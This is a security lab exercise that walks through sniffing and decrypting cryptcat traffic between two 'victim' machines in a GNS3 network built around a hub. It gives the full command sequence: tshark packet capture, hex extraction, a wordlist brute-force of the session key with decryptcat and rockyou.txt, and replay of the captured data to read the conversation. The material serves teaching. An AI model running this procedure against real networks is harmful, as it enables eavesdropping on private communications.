

## **ES 02: Decrypting CryptoCat Traffic**  

In this lab, we will use **GNS3**, configured as follows:  

  

- **HUB** (**Important**: It must replace the switch that we usually connect to the router!)  
- **2 "Victim" Machines** (Ubuntu)
- **1 "Attacker" Machine** (Ubuntu)
- **Router**  
- **NAT**  

Before proceeding, ask yourself: **Why is a switch not suitable in this case?**  

### **Step 1: Setting Up the Victim Machines**  

First, install `cryptcat` on both victim machines and start a communication session:  

```shell
# Install cryptcat (all machines - victims and Darth)
$ wget http://launchpadlibrarian.net/470123778/cryptcat_20031202-4build2_amd64.deb
$ sudo dpkg -i cryptcat_20031202-4build2_amd64.deb

# Start server (one victim machine)
$ cryptcat -k <KEY> -p <PORT> -l

# Start client (other machine)
$ cryptcat <SERVER_IP> <SERVER_PORT> -k <KEY>
```  

### **Step 2: Preparing the Attacker Machine**  

Now, let's install the necessary tools on the **attacker machine**.  
From this point on, all actions must be performed on **Darth**.  
First, install the required tools:  

```shell
# Install cryptcat (all machines - victims and Darth)
$ wget http://launchpadlibrarian.net/470123778/cryptcat_20031202-4build2_amd64.deb
$ sudo dpkg -i cryptcat_20031202-4build2_amd64.deb

# Install tshark
$ sudo apt update && sudo apt install tshark

# Install decryptcat and get wordlist
$ git clone https://github.com/deurstijl/decryptcat
$ cd decryptcat
$ make install
$ wget https://gitlab.com/kalilinux/packages/wordlists/-/raw/kali/master/rockyou.txt.gz
$ gzip -d rockyou.txt.gz
```  

### **Step 3: Performing the Attack**  

Now that we have everything set up, we can execute the attack.  

```shell
# Start sniffing network traffic
$ sudo tshark -Y 'tcp.flags.push == 1 && data && !tcp.analysis.flags' -T fields -e data > raw-out.txt

# Extract data from sniffed traffic
$ cat raw-out.txt | xxd -r -p > crypted_data.txt

# Extract the encryption key from captured data
$ ./decryptcat crypted_data.txt rockyou.txt
DISCOVERED_PASSWORD

# Decrypt the file and read the conversation
$ cryptcat -k <DISCOVERED_PASSWORD> -l -p <PORT> 

# Netcat sends the encrypted data to cryptcat, which then displays the decrypted message.
# This triggers a response from the client.
$ netcat -w 1 127.0.0.1 <PORT> < crypted_data.txt
```  


